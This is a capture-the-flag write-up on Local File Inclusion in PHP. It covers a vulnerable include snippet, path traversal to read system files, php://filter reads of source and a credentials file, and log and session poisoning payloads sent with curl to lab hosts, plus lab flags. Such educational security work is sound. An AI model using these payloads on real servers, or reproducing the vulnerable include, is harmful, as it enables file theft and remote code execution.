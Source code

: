 # Patch Management is Hard
### Category: Web Exploitation

Covers the basics of a Local File Inclusion (LFI) Vulnerability, including how to identity and test for LFI


#### What is LFI Vulnerability
An `LFI` vulnerability is found in various web apps. Ex) In PHP, the following functions cause this vulnerability

- `include`
- `require`
- `include_once`
- `require_once`

Allows atackers to include and read local files on thes server. An `LFI` vulnerability occurs with a developer's lack of security awareness.

#### What is the risk of LFI?
One of the most significant risks is leaking of sensitive data if an attacker can gain access to that sensitive data. Sometimes can be upgraded and chained to `RCE` (Remote Code Execution). 

#### Identifying and Testing for LFI
Attackers are usually interested in HTTP parameters to manipulate the input and inject payloads to see on the web app behaves. An entry point could be HTTP `GET` or `POST` parameters that pass an argument or data to the web server.

http://webapp.thm/get.php?file=userCV.pdf

**http://** -> Protocol
**webapp.thm** -> Domain Name
**get.php** -> File name
**?** -> Query string begin
**file** -> parameters

Once you find an entry point, we need to understand how this data could be processed within the application. The following example of PHP code is vulnerability to LFI

```php
<?PHP
	include($_GET["file"]);
?>
```

The PHP code uses a `GET` request via the URL parameter *file* to include the file on thep age. 

Other entry points can be used depending on the web app, including *User-Agent*, *Cookies*, *session*, and other HTTP headers

Now that we have the entry point, let's test for reading local files on the system. In Linux, some files that have sensitive information

- */etc/issue*
- */etc/passwd*
- */etc/shadow*
- */etc/group*
- */etc/hosts*
- */etc/motd*
- */etc/mysql/my.cnf*
- */proc/[0-9]*/fd/[0-9]*
- */proc/self/environ*
- */proc/version*
- */proc/cmdline*

###### Techniques to try...
- A direct file inclusion such as `/etc/passwd`
- using `..` to get out of the current directory
- Bypassing filters using `....//`
- URL encoding techniques (such as double encoding)

#### Exploiting LFI
Exploiting LFI is sometimes limited and depends on the web app server configuration. Besides reading sensitive data, remove code execution is something we want. If we're dealing with a PHP web app, then we can use a PHP-supported Wrapper.

#### PHP Filter
The PHP filter wrapper is used in LFI to read the actual PHP page content. Normally it's not possible to see the actual contents of the PHP on a page. Use a PHP filter to display the contents of PHP files in  other encoding formats such as `base64` or `ROT13`

#### PHP DATA
The PHP wrapper is used to include raw plain text or base64 encoded data. It is used to include images on the current page. It is being used in LFI exploit

```scheme
echo "AoC3 is fun!" | base64
```

```scheme
http://example.thm.labs/page.php?file=data://text/plain;base64,QW9DMyBpcyBmdW4hCg==
```

#### LFI to RCE via Log files
Also called a log poisoning attack. If you can cause what you want to be executed to show up in the log files, then request that page it will execute.

The log page stores four different headers, including the *username*, *IP address*, *User-Agent*, and the visited page. The `User-Agent` is an HTTP header that includes the user's browsers information to let servers identify the type of OS, vendor, and version. The `User-Agent` is one of the HTTP headers that the user can control. We need to include PHP code into the `User-Agent` to get RCE.

Testing to see if it shows in the logs
```scheme
curl -A "Testing" http://10-10-241-126.p.thmlabs.com/login.php
```
Log file updated
```scheme
Guest:172.17.0.1:Testing:/login.php
```

Injecting PHP code into the User-Agent
```scheme
curl -A "<?php phpinfo();?>" http://10-10-241-126.p.thmlabs.com/login.php
```

#### LFI to RCE via PHP Sessions
Follows the same technique as the log poisoning technique. PHP sessions are files within the OS that store temporary information. After the user logs out of the web app, the PHP session ifnormation will be deleted. This technique requires enumeration to read the PHP configuration first. Common locations where PHP stores this data
```scheme
C:\Windows\Temp
/tmp/
/var/lib/php5
/var/lib/php/session
```

This specific web app, it stores the PHP sessions in the `/tmp` directory. It also stores the value of the username into the session even if you are not logged in since this value is needed by the developer to use it in the logs function. We injec the PHP code into the user section in the following way

```scheme
Username:
<?php phpinfo();?>
Password:
asdf
```

Default naming schema for PHP is to do `sess_<SESSION_ID>` so if the cookie value is `vc4567al6pq7usm2cufmilkm45` therefore the file stored in `/tmp` will be `sess_vc4567al6pq7usm2cufmilkm45`. Now we can use LFI to call the session file.

## Question 1
##### What is the entry point for our web application?
The HTTP paramter `err` is set to grab the file to display

## Question 2
##### Use the entry point to perform `LFI` to read `/etc/flag`
Used the directory traversal technique `../../../../etc/flag`

THM{d29e08941cf7fe41df55f1a7da6c4c06}

## Question 3
##### Use PHP filter technique to read source code of `index.php`

`index.php?err=php://filter/convert.base64-encode/resource=index.php`

Returns *base64* encoded string. When decoded reveals the *$flag* variable.

THM{791d43d46018a0d89361dbf60d5d9eb8}

## Question 4
##### Find McSkidy's missing credentials
In `index.php` the source code shows that the file `creds.php` is included in the path `./includes/creds.php`. The same technique is used to spit out the source code in encoded *base64* and then decoded to find his credentials.

`php://filter/convert.base64-encode/resource=./includes/creds.php`

```scheme
<?php 
$USER = "McSkidy";
$PASS = "A0C315Aw3s0m";
```

## Question 5
##### Use McSkidy's credentials to login and find server password
`flag.thm.aoc` server -> THM{552f313b52e3c3dbf5257d8c6db7f6f1}


## Question 6
##### Use the LFI to gain RCE via the log file page. What is hostname?
The log file is located at `./includes/logs/app_access.log`

payload
```scheme
curl -A "<?php echo php_uname('n');?>" http://...
```

hostname -> lfi-aoc-awesome-59aedca683fff9261263bb084880c965


## Bonus
##### Use current PHP configuration stores the PHP session in `/tmp`. Use the LFI to call the PHP session file to get PHP code executed

